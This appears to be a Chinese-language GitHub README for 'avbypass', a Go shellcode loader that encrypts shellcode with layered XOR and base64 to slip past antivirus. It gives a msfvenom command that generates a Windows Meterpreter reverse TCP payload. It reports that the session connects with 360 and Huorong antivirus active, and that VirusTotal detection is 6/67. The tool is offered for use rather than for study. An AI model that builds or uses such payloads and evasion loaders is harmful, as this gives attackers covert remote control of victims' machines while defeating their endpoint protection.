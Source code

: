 ## avbypass

#### 使用

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxx -f raw -o payload.bin
```

使用程序生成加密的shellcode后，填入指定位置，编译执行即可。

通过xor和base64多层加密shellcode实现的go加载器bypassav，

![](https://github.com/Shu1L/avbypass/blob/main/20211010131838.png)

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010131902.png)

实测在开启360和火绒的情况下msf正常上线

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010131740.png)

virustotal结果 6/67，后续有时间会慢慢修改

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010155756.png)# avbypass
# avbypass
"# avbypass" 
